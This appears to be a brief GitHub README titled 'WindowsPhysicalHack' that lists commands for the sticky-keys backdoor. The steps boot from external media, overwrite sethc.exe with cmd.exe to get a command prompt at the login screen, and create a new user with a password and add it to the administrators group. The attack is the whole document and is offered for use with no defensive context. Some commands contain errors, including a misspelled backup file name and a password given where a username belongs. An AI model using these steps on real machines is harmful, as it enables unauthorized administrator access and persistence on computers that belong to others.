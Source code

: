 #WindowsPhysicalHack

##Create windows bootable disk
##Open cmd from the bootable disk
##Cd to C drive
```c:\windows\system32```
```copy sethc.exe setchc_old.exe```
```copy cmd.exe sethc.exe```
##Press shift key 5 times until cmd pops up
```net user knight brucewayne /add```
```net localgroup administrators brucewayne /add```